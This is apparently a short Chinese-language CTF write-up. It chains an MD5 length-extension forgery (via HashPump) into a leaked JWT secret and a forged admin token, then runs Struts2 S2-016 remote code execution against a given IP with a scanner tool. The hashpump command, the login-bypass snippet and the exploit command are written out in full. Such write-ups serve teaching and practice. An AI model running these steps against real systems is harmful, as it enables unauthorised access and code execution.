# 思路
	- 使用[HashPump](((64b5744c-69e1-4d03-9fc1-87242bf9d487)))伪造MD5拿到JWT secret, 然后伪造JWT访问后台，最后使用struts2漏洞完成RCE
- # 伪造MD5
	- 因为我们知道`md5(secret + "adminroot")`的hash, 我们可以使用[HashPump](((64b5744c-69e1-4d03-9fc1-87242bf9d487)))构造以`adminroot`为开头的payload并知道`md5(secret + payload)`
	- 使用Hashpump:
		- ```shell
		  /home/user/toolkit/HashPump/hashpump -s e6ccbf12de9d33ec27a5bcfb6a3293df -d adminroot -a root -k 14
		  ```
	- 提交
		- ```python
		  r = base_post(url, data = {
		      "username": "admin",
		      "password": payload.removeprefix(b"admin"),
		  }, cookies = {
		      "digest": h
		  })
		  ```
- # 利用struts漏洞
	- 有[工具](https://github.com/Marven11/Struts2-Scan)，跑以下命令即可
		- ```python
		  python Struts2Scan.py -u 'http://140.210.223.216:55557/admiiiiiiiiiiin/user.action' --header 'access_token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJhZG1pbiIsImV4cCI6MjAwNjIzMTU1N30.gqC7CPjNYryrlu83oZYrsbpxC9ghdXIr8B5WaWQ_dEk' -n 'S2-016' --exec
		  ```